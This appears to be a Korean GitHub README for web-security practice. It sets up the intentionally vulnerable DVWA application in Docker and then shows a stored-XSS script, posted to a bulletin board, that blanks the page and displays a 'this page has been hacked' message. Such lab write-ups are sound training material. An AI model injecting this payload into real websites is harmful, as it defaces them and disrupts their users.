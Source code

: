 # 🧪 Training

## 🧱 DVWA (Damn Vulnerable Web Application)

- 트레이닝 환경은 DVWA 환경을 구축하여 진행했습니다.
- **DVWA**는 웹 애플리케이션의 취약점(예: HTML Injection, SQL Injection, XSS 등)을 실습할 수 있도록 설계된 **취약한 웹 애플리케이션 플랫폼**입니다.
- 보안 교육, 모의 해킹 실습, 취약점 분석 훈련 등에 널리 활용됩니다.

---

## 🐳 DVWA Docker 환경 구축

아래 명령어를 사용하여 **Docker**로 DVWA를 손쉽게 실행할 수 있습니다.
```
# 버프수트에서 8080 포트를 사용하고 있어서 8081로 설정함.
# 8080 포트 사용 시 인터셉트가 걸리지 않을 수 있음.
docker run -d -p 8081:80 --name dvwa vulnerables/web-dvwa 

# 종료
docker stop dvwa
```
- `-d`: 백그라운드 모드로 실행  
- `-p 8081:80`: 호스트의 포트 8081을 컨테이너의 포트 80에 매핑  
- `--name dvwa`: 컨테이너 이름을 `dvwa`로 지정  
- `vulnerables/web-dvwa`: DVWA 공식 Docker 이미지

> ✅ 실행 후 브라우저에서 `http://localhost:8080` 접속

---

<img width="1917" height="943" alt="image" src="https://github.com/user-attachments/assets/204c9320-f501-41ee-ab1b-eeaf48642727" />

## 본격 트레이닝

### CASE 1.

#### 게시판 목록 화면에서 스크립트 삽입을 통해 HTML 조작하여 게시판 마비

##### 삽입 스크립트

```
<script>
  document.getElementById('main_body').innerHTML = '';
  var h1Tag = document.createElement('h1');
  h1Tag.innerText = '이 페이지는 해킹 당했습니다.';
  document.getElementById('main_body').append(h1Tag);
</script>
```

<img width="892" height="859" alt="image" src="https://github.com/user-attachments/assets/76036b7d-69d7-4be8-ab17-f971eb6bf7ec" />

##### 등록

<img width="894" height="860" alt="image" src="https://github.com/user-attachments/assets/3602f5c8-42cc-481a-b1a7-7bfaf288a159" />
